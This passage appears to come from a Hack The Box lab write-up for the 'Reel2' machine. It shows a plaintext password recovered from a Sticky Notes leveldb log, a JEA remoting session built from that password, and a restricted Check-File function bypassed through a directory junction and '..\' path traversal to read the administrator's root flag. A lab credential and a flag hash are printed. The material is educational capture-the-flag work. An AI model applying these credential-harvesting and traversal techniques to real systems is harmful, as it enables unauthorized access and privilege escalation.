[10.10.10.210]: PS>.{cd ..\blob_storage}                                                 
    Directory: C:\Users\k.svensson\AppData\Roaming\stickynotes\blob_storage


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d-----        2/16/2021   5:08 PM                034a85de-dd17-4c80-a8ba-034bfb90026f                 


[10.10.10.210]: PS>.{cd .\034a85de-dd17-4c80-a8ba-034bfb90026f/}
[10.10.10.210]: PS>.{cd '..\..\Local Storage/'}                 
    Directory: C:\Users\k.svensson\AppData\Roaming\stickynotes\Local Storage


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d-----        2/16/2021   5:08 PM                leveldb                                              


[10.10.10.210]: PS>.{cd leveldb}                                
    Directory: C:\Users\k.svensson\AppData\Roaming\stickynotes\Local Storage\leveldb


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
-a----        2/12/2021   4:58 PM           2545 000003.log                                           
-a----        7/30/2020   1:19 PM             16 CURRENT                                              
-a----        7/30/2020   1:19 PM              0 LOCK                                                 
-a----        2/16/2021   5:08 PM              0 LOG                                                  
-a----        2/12/2021   4:58 PM            182 LOG.old                                              
-a----        7/30/2020   1:19 PM             41 MANIFEST-000001
```

Inside the `\stickynotes` folder there was a `Local Storage` folder with a `leveldb` folder. After searching for leveldb I discovered it was a type of local database, and not related to the Sticky Notes program \(at least not Microsoft's set up\).  It seemed like this was a custom database setup.

* [https://livebook.manning.com/book/cross-platform-desktop-applications/chapter-12/15](https://livebook.manning.com/book/cross-platform-desktop-applications/chapter-12/15)

I did some research to see if I could find out anything about this kind of custom set up for this program, and found that there was a community of people who preferred the old Sticky Notes program, and worked out ways to install and run it locally.  It looked possible that this project had been implemented here.

```text
[10.10.10.210]: P> .{type Log.old}
2021/02/12-16:58:37.478 5956 Reusing MANIFEST leveldb/MANIFEST-000001
2021/02/12-16:58:37.478 5956 Recovering log #3
2021/02/12-16:58:37.479 5956 Reusing old log leveldb/000003.log
```

First I checked `Log.old` to see if there was anything useful, but it just pointed towards the other log file in the directory

```text
[10.10.10.210]: PS>.{type 000003.log}
/á€uBVERSION1
             META:app://.app://.__storejs__test__Z’–9[
                                                      META:app://.
                                                                 ž¤¨šÒÇÂò
                                                                         _app://.1É{"first":"<p>Credentials for JEA</p><p>jea_test_account:Ab!Q@vcg^%@#1</p>","back":"rgb(255, 242, 171)","title":"rgb(255, 235, 129)","wid":"350","hei":"375","deleted":"no","closed":"yes","locked":"no"}app://.__storejs__test___app://.closed{"closed":"yes"}
                            _app://.id
                                      {"ids":"1"}y€«V
                                                        META:app://.
                                                                   ïå©¿ÒÇÂÚapp://.__storejs__test___app://.closed˜@:lK

               META:app://.
                          ˆ‚·àÒÇÂò_app://.closed{"closed":"yes"}þUq­V
                                                                     META:app://.
                                                                                ¯Ðó¢ÔÇÂÚapp://.__storejs__test___app://.closed˜ K
                          META:app://.
                                     åêú¾ÔÇÂò_app://.closed{"closed":"yes"}Iž5V
                                                                               META:app://.
                                                                                          Ê¿ÕÇÂÚapp://.__storejs__test___app://.closed©x–D
                                   META:app://.
                                              ä̶ØÇÂÚapp://.__storejs__test__¥1ï?D▒
                                                                                   META:app://.
                                                                                              ð”þÉØÇÂÚapp://.__storejs__test__»n«ØD▒
                             META:app://.
                                        Ö¹»§æÇÂÚapp://.__storejs__test__ä>JD
                                                                            META:app://.
                                                                                       ᆠèÇÂÚapp://.__storejs__test__P¯RÜD
                    META:app://.
                               î߃ÓéÇÂÚapp://.__storejs__test__¢h©¸D 
                                                                     META:app://.
                                                                                ¤®¦è‡ÈÂÚapp://.__storejs__test__]­v0K"
               META:app://.
                          ÅŽÈÂò_app://.closed{"closed":"yes"}ïs▒xV$
                                                                      META:app://.
                                                                                 û†ŽŽÈÂÚapp://.__storejs__test___app://.closed:å.D'
                            META:app://.
                                       —ú׌ìÉÂÚapp://.__storejs__test__¿ç­$D)
                                                                             META:app://.
                                                                                        ÁØÂóëüÂÚapp://.__storejs__test__…2w‚D+
                       META:app://.
                                  ÛÐðã÷¡ÃÚapp://.__storejs__test__bžâD-
                                                                       META:app://.
                                                                                  „žŽøòàÃÚapp://.__storejs__test__Äÿ|D/
                META:app://.
                           ‚©ØÅáÃÚapp://.__storejs__test__žD1
                                                             META:app://.
                                                                        ´‰ýåèáÃÚapp://.__storejs__test__Âýä4D3
       META:app://.
                  ÀûÞšÃãÃÚapp://.__storejs__test__N–U†D5
                                                        META:app://.
                                                                   Ûõ¤¶ˆèÃÚapp://.__storejs__test__µ-ħD7
  META:app://.
             ÃëÍäèÃÚapp://.__storejs__test__ÍḳD9
                                                  META:app://.
                                                             ¿Ë ¶ñ÷ÃÚapp://.__storejs__test__¾íãD;
                                                                                                  META:app://.
      ý¤×éò÷ÃÚapp://.__storejs__test__Á
                                       £úD=
                                           META:app://.
                                                      ÕÇâžðÄÚapp://.__storejs__test__†q¿D?
                                                                                           META:app://.
                                                                                                     Þ÷Èç·ÆÚapp://.__storejs__test__F­ˆºDA
                                   META:app://.
                                              µðóò¿·ÆÚapp://.__storejs__test__‰•™DC
                                                                                   META:app://.
                                                                                              —´¦ÏÉÁÆÚapp://.__storejs__test__
```

One string stuck out in this log:

```text
"<p>Credentials for JEA</p><p>jea_test_account:Ab!Q@vcg^%@#1</p>"
```

It looked like I had found a password for the `jea_test_account` I had seen files for earlier.

* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7.1)
* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/using-jea?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/using-jea?view=powershell-7.1)

> To use JEA interactively, you need:
>
> * The name of the computer you're connecting to \(can be the local machine\)
> * The name of the JEA endpoint registered on that computer
> * Credentials that have access to the JEA endpoint on that computer
>
> Given that information, you can start a JEA session using the New-PSSession or Enter-PSSession cmdlets.
>
> ```text
> $nonAdminCred = Get-Credential Enter-PSSession -ComputerName localhost -ConfigurationName JEAMaintenance -Credential $nonAdminCred
> ```
>
> If the current user account has access to the JEA endpoint, you can omit the Credential parameter.

* [https://stackoverflow.com/questions/10011794/hardcode-password-into-powershells-new-pssession](https://stackoverflow.com/questions/10011794/hardcode-password-into-powershells-new-pssession)

In order to pass both the username and password into the `New-PSSession` cmdlet, I had to create a new object that contained this information.

### Shell as `jea_test_account`

```bash
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ pwsh                       
PowerShell 7.0.0
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/powershell
Type 'help' to get help.

   A new PowerShell stable release is available: v7.1.2 
   Upgrade now, or check out the release page at:       
     https://aka.ms/PowerShell-Release?tag=v7.1.2       

PS /home/zweilos/htb/reel2> $user = "jea_test_account"
PS /home/zweilos/htb/reel2> $pass = ConvertTo-SecureString "Ab!Q@vcg^%@#1" -AsPlainText 
PS /home/zweilos/htb/reel2> $creds = new-object -typename System.Management.Automation.PSCredential -argumentlist ($user, $pass)                    
PS /home/zweilos/htb/reel2> $jeaSession = New-PSSession 10.10.10.210 -Credential $creds -Authentication Negotiate
New-PSSession: [10.10.10.210] Connecting to remote server 10.10.10.210 failed with the following error message : ERROR_ACCESS_DENIED: Access is denied.  For more information, see the about_Remote_Troubleshooting Help topic.                                                                                      
PS /home/zweilos/htb/reel2> $jeaSession = New-PSSession 10.10.10.210 -Credential $creds -Authentication Negotiate -ConfigurationName "jea_test_account"                                                       
PS /home/zweilos/htb/reel2> Enter-PSSession $jeaSession
```

After creating an object with the credentials, and specifying the connection with the configuration name I was able to connect.

```text
[10.10.10.210]: P> whoami /all
The term 'whoami.exe' is not recognized as the name of a cmdlet, function, script file, or operable 
program. Check the spelling of the name, or if a path was included, verify that the path is correct 
and try again.
    + CategoryInfo          : ObjectNotFound: (whoami.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

[10.10.10.210]: P> .{whoami /all}
The syntax is not supported by this runspace. This can occur if the runspace is in no-language mode.
    + CategoryInfo          : ParserError: (.{whoami /all}:String) [], ParseException
    + FullyQualifiedErrorId : ScriptsNotAllowed
```

I went from one restricted account to a more restricted account.... "no-language mode" \(google this\)

```text
CommandType     Name                                               Version    Source                  
-----------     ----                                               -------    ------                  
Function        Check-File                                                                            
Function        Clear-Host                                                                            
Function        Exit-PSSession                                                                        
Function        Get-Command                                                                           
Function        Get-FormatData                                                                        
Function        Get-Help                                                                              
Function        Measure-Object                                                                        
Function        Out-Default                                                                           
Function        Select-Object                                                                         


[10.10.10.210]: PS>Get-Help Check-File
Cannot find path '' because it does not exist.
    + CategoryInfo          : ObjectNotFound: (:) [Get-Help], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetHelpCommand
```

I used `Get-Command` to see if I had access to the same commands, and found that it was pretty much the same list with one addition.  I tried to access the help information for the `Check-File` command, but I got a `Cannot find path` error.

```bash
[10.10.10.210]: P> .{type jea_test_account.psrc}
@{

# ID used to uniquely identify this document
GUID = '08c0fdac-36ef-43b5-931f-68171c4c8200'

# Author of this document
Author = 'cube0x0'

# Description of the functionality provided by these settings
# Description = ''

# Company associated with this document
CompanyName = 'Unknown'

# Copyright statement for this document
Copyright = '(c) 2020 cube0x0. All rights reserved.'

# Modules to import when applied to a session
# ModulesToImport = 'MyCustomModule', @{ ModuleName = 'MyCustomModule'; ModuleVersion = '1.0.0.0'; GUID = '4d30d5f0-cb16-4898-812d-f20a6c596bdf' }

# Aliases to make visible when applied to a session
# VisibleAliases = 'Item1', 'Item2'

# Cmdlets to make visible when applied to a session
# VisibleCmdlets = 'Invoke-Cmdlet1', @{ Name = 'Invoke-Cmdlet2'; Parameters = @{ Name = 'Parameter1'; ValidateSet = 'Item1', 'Item2' }, @{ Name = 'Parameter2'; ValidatePattern = 'L*' } }

# Functions to make visible when applied to a session
# VisibleFunctions = 'Invoke-Function1', @{ Name = 'Invoke-Function2'; Parameters = @{ Name = 'Parameter1'; ValidateSet = 'Item1', 'Item2' }, @{ Name = 'Parameter2'; ValidatePattern = 'L*' } }

# External commands (scripts and applications) to make visible when applied to a session
# VisibleExternalCommands = 'Item1', 'Item2'

# Providers to make visible when applied to a session
# VisibleProviders = 'Item1', 'Item2'

# Scripts to run when applied to a session
# ScriptsToProcess = 'C:\ConfigData\InitScript1.ps1', 'C:\ConfigData\InitScript2.ps1'

# Aliases to be defined when applied to a session
# AliasDefinitions = @{ Name = 'Alias1'; Value = 'Invoke-Alias1'}, @{ Name = 'Alias2'; Value = 'Invoke-Alias2'}

# Functions to define when applied to a session
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like "C:\ProgramData\*" ; if($check) {get-content $Path}} }

# Variables to define when applied to a session
# VariableDefinitions = @{ Name = 'Variable1'; Value = { 'Dynamic' + 'InitialValue' } }, @{ Name = 'Variable2'; Value = 'StaticInitialValue' }

# Environment variables to define when applied to a session
# EnvironmentVariables = @{ Variable1 = 'Value1'; Variable2 = 'Value2' }

# Type files (.ps1xml) to load when applied to a session
# TypesToProcess = 'C:\ConfigData\MyTypes.ps1xml', 'C:\ConfigData\OtherTypes.ps1xml'

# Format files (.ps1xml) to load when applied to a session
# FormatsToProcess = 'C:\ConfigData\MyFormats.ps1xml', 'C:\ConfigData\OtherFormats.ps1xml'

# Assemblies to load when applied to a session
# AssembliesToLoad = 'System.Web', 'System.OtherAssembly, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a'
```

The answer was in the JEA configuration files I had seen earlier.  Inside the configuration file `jea_test_account.psrc` there was a definition for a custom function `Check-File`. 

```bash
# Functions to define when applied to a session
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like "C:\ProgramData\*" ; if($check) {get-content $Path}} }
```

This function runs the `Get-Content` cmdlet, but first checks to see if the path of the file supplied contains `D:\` or `C:\ProgramData\`, and only works if this is true. It seems that there must be some file in these directories that would hopefully point me in the right direction.

```bash
[10.10.10.210]: PS>.{type jea_test_account.pssc}
@{

# Version number of the schema used for this document
SchemaVersion = '2.0.0.0'

# ID used to uniquely identify this document
GUID = 'd6a39756-aa53-4ef6-a74b-37c6a80fd796'

# Author of this document
Author = 'cube0x0'

# Description of the functionality provided by these settings
# Description = ''

# Session type defaults to apply for this session configuration. Can be 'RestrictedRemoteServer' (recommended), 'Empty', or 'Default'
SessionType = 'RestrictedRemoteServer'

# Directory to place session transcripts for this session configuration
# TranscriptDirectory = 'C:\Transcripts\'

# Whether to run this session configuration as the machine's (virtual) administrator account
RunAsVirtualAccount = $true

# Scripts to run when applied to a session
# ScriptsToProcess = 'C:\ConfigData\InitScript1.ps1', 'C:\ConfigData\InitScript2.ps1'

# User roles (security groups), and the role capabilities that should be applied to them when applied to a session
RoleDefinitions = @{
    'htb\jea_test_account' = @{
        'RoleCapabilities' = 'jea_test_account' } }

# Language mode to apply when applied to a session. Can be 'NoLanguage' (recommended), 'RestrictedLanguage', 'ConstrainedLanguage', or 'FullLanguage'
LanguageMode = 'NoLanguage'
```

The second configuration file confirmed my suspicions that I had been locked into `NoLanguage` mode, which explained why I couldn't use custom functions anymore.

```text
[10.10.10.210]: P> .{cd D:\}
cd : Cannot find drive. A drive with the name 'D' does not exist.
At line:1 char:3                                                                                       
+ .{cd D:\}                                                                                            
+   ~~~~~~                                                                                             
    + CategoryInfo          : ObjectNotFound: (D:String) [Set-Location], DriveNotFoundException        
    + FullyQualifiedErrorId : DriveNotFound,Microsoft.PowerShell.Commands.SetLocationCommand
```

It did not appear that there even was a `D` drive, so I checked out the other folder

* [https://stackoverflow.com/questions/894430/creating-hard-and-soft-links-using-powershell](https://stackoverflow.com/questions/894430/creating-hard-and-soft-links-using-powershell)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-psdrive?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-psdrive?view=powershell-7.1)

Two paths forward

```text
[10.10.10.210]: P> .{New-PSDrive -Name "D" -PsProvider "FileSystem" -Root "C:\"}                       

Name           Used (GB)     Free (GB) Provider      Root                                CurrentLocati
                                                                                                    on
----           ---------     --------- --------      ----                                -------------
D                                      FileSystem    C:\                                              


[10.10.10.210]: P> .{cd D:\}
```

desc

```text
[10.10.10.210]: P> .{cd D:\Users}
[10.10.10.210]: P> .{ls}


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d-----        7/30/2020  12:13 PM                .NET v2.0                                            
d-----        7/30/2020  12:13 PM                .NET v2.0 Classic                                    
d-----        7/28/2020   2:53 PM                Administrator                                        
d-----        7/30/2020  12:13 PM                Classic .NET AppPool                                 
d-----        7/30/2020   1:17 PM                k.svensson                                           
d-r---        8/22/2013   5:39 PM                Public
```

I was able to link the C drive to the D drive letter as  \(original user\), however the `jea_test_account` was not able to see it

* [https://stackoverflow.com/questions/894430/creating-hard-and-soft-links-using-powershell](https://stackoverflow.com/questions/894430/creating-hard-and-soft-links-using-powershell)

```text
[10.10.10.210]: PS>.{New-Item -Path C:\ProgramData\Administrator\ -ItemType SymbolicLink -Value C:\Users\Administrator\}                                                                                      
New-Item : Administrator privilege required for this operation.
At line:1 char:3                                                                                       
+ .{New-Item -Path C:\ProgramData\Administrator\ -ItemType SymbolicLink ...                            
+   ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                                
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\:String) [New-Item], Unauthor  
   izedAccessException                                                                                 
    + FullyQualifiedErrorId : NewItemSymbolicLinkElevationRequired,Microsoft.PowerShell.Commands.NewI  
   temCommand
```

desc

```text
[10.10.10.210]: PS>.{New-Item -Path C:\ProgramData\Desk\ -ItemType Junction -Value C:\Users\Administrator\}                                                                                                   


    Directory: C:\ProgramData


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d----l        2/16/2021  11:19 PM                Desk
```

desc

### Root.txt

```text
[10.10.10.210]: PS>Check-File C:\ProgramData\Desk\Desktop\root.txt                                     
e145465135ac264800cee7d8dda0dbba
```

After going through all of the trouble to create a link to the folders, I realized that I could also do it more simply...with directory traversal!

```text
[10.10.10.210]: PS>Check-File C:\ProgramData\..\Users\Administrator\Desktop\root.txt

e145465135ac264800cee7d8dda0dbba
```

Since the custom function was looking for a path with the `-Like` parameter and a `*` wildcard, anything could be put after the path `C:\ProgramData\`. This includes directory traversal paths such as `..\`



Thanks to [`cube0x0`](https://app.hackthebox.eu/users/9164) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

